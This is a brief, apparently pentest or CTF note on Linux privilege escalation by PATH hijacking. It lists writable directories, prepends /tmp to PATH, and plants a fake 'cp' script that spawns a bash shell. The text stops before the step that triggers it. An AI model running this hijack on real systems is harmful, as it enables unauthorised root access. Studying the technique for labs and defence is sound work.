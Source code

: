 # PATH

we start to know all paths are stored

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

then we want to know what are folder is writable

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

we compare if any writable folder is path or not if not found we try to add this folder in `$PATH`

```bash
export PATH=/tmp:$PATH
# replace /tmp to your path
```

then we will create a malicious file

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cp
chmod +x /tmp/cp
```
